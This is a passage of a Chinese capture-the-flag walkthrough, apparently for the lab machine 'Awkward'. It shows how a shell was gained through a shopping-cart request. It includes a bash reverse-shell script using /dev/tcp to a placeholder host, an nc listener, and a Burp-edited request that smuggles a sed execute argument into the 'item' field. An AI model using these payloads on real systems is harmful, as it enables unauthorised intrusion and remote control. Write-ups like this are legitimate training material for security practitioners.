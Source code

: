 没有vim，那就用nano在`/tmp`目录写入反弹shell文件`shell.sh`，并添加可执行权限

  

  *   *   *   *   *   *   *   *   *   * 

    
    
    bean@awkward:/tmp$ nano shell.shbean@awkward:/tmp$ cat shell.sh #!/bin/bashbash -i >& /dev/tcp/[本地IP]/[想要监听的PORT] 0>&1  
    bean@awkward:/tmp$ ls -l shell.sh -rw-rw-r-- 1 bean bean 55 Mar  4 12:29 shell.shbean@awkward:/tmp$ chmod +x shell.sh bean@awkward:/tmp$ ls -l shell.sh -rwxrwxr-x 1 bean bean 55 Mar  4 12:29 shell.sh

  

开启nc监听

  

  * 

    
    
    nc -nvlp 9001

  

打开Burpsuite，然后打开如下购物车界面，点击`Remove`的同时截获请求

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307193115.png)

修改请求数据如下

  

  * 

    
    
    item=1'+-e+"1e+/tmp/shell.sh"+/tmp/shell.sh+'&user=959e-8a52-2e0-fc52&action=delete_item

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307193117.png)

拿到www-data用户权限

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307193118.png)

本地下一个pspy64[4]，然后开启80服务监听，再然后到bean用户的ssh窗口用wget从本地下载pspy64

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307193119.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307193120.png)

然后在www-
data用户窗口执行pspy64，看到inotifywait工具在监听`/var/www/private/leave_requests.csv`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307193121.png)

查看`/var/www/private/leave_requests.csv`内容如下，可看到是`Leave Request Database`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307193122.png)
